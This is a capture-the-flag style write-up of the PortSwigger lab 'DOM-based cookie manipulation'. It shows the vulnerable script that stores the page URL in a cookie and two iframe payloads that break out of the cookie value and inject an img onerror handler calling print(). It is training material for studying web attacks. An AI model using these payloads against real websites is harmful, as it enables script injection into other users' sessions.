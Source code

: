 # [Lab: DOM-based cookie manipulation](https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation)

## Lab

This lab demonstrates DOM-based client-side cookie manipulation. To solve this lab, inject a cookie that will cause XSS on a different page and call the `print()` function. You will need to use the exploit server to direct the victim to the correct pages.

## Analysis

Find scripts:

- `/product?productId=xxx`:

  ```js
  <script>
      document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
  </script>
  ```

logic:

- access to `/product?productId=xxx` => `http://.../product?productId=xxx` is saved to cookie
- depends on the cookie, the server create a `lastViewedProduct` link in response.

## Solutions

craft a response at exploit server:

- body:

  ```js
  <iframe src="https://id.web-security-academy.net/product?productId=5&%27%3E%3Cimg%20src=1%20onerror=print()%3E" onload=reload()></iframe>
  ```

- view exploit => it's worked, but the lab is still not solved.

solution 2, craft a response at exploit server:

- body:

  ```js
  <iframe src="https://id.web-security-academy.net/product?productId=1&'><img src=1 onerror=print()>" onload="if(!window.x)this.src='https://id.web-security-academy.net';window.x=1;">
  ```
